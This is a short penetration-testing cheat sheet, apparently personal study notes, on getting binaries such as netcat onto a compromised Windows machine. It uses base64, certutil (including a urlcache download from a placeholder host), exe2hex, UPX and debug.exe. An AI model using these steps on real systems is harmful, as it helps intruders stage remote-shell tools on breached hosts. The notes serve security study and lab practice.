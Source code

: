 # Encode / Decode Files

## Base 64 encode/decode

#### Linux

```bash
base64 -w0 <file> #Encode file
base64 -d file #Decode file
```

#### Windows

```
certutil -encode payload.dll payload.b64
certutil -decode payload.b64 payload.dll
```

## Windows Downloads with exe2hex and PowerShell

```
cp /usr/share/windows-resources/binaries/nc.exe .

upx -9 nc.exe  >>> decrease the file size by 50%
```

#### convert nc.exe to a Windows script (.cmd) to run on the Windows machine, which will convert the file to hex and instruct powershell.exe to assemble it back into binary

```
exe2hex -x nc.exe -p nc.cmd
```

copy to clipboard directly:

```
cat nc.cmd | xclip -selection clipboard
```

paste it into the windows shell

## Certutil

Base64 encode the binary file outside

```
$raw = Get-Content -Path c:\nc.exe -Encoding Byte
$b64 = [System.Convert]::ToBase64String($raw)
$begin= "-----BEGIN CERTIFICATE-----"
$end = "-----END CERTIFICATE-----"
"$begin$b64$end" | Out-File c:\nc.txt
```

Download via Notepad; certutil to write:

```
certutil.exe -decode nc.txt nc.exe
```

we can use certutils cache feature to download the file:

```
certutil.exe –urlcache -split –f "http://SITE/nc.crt" nc.txt
```

## debug.exe

This is a crazy technique that works on windows 32 bit machines. Basically the idea is to use the debug.exe program. It is used to inspect binaries, like a debugger. But it can also rebuild them from hex. So the idea is that we take a binaries, like netcat. And then disassemble it into hex, paste it into a file on the compromised machine, and then assemble it with debug.exe.

Debug.exe can only assemble 64 kb. So we need to use files smaller than that. We can use upx to compress it even more. So let's do that:

```
upx -9 nc.exe
```

Now it only weights 29 kb. Perfect. So now let's disassemble it:

```
wine exe2bat.exe nc.exe nc.txt
```

Now we just copy-past the text into our windows-shell. And it will automatically create a file called nc.exe

## Base 64 Encoding + Copy & Paste

The trick is by first encoding the file in Base 64. We can do this by using Python:

```
python -c 'print(__import__("base64").b64encode(open("file", "rb").read()))'
```

Then, on the target, we can copy and paste the string into a .txt file with

```
echo "string" > output.txt
```

and use base64 to decode the file, with

```
base64 -d output.txt > output-file
```

If Python is available, you can also run

```
python -c 'print(__import__("base64").b64decode(open("string.txt", "r").read()))' > out-file
```
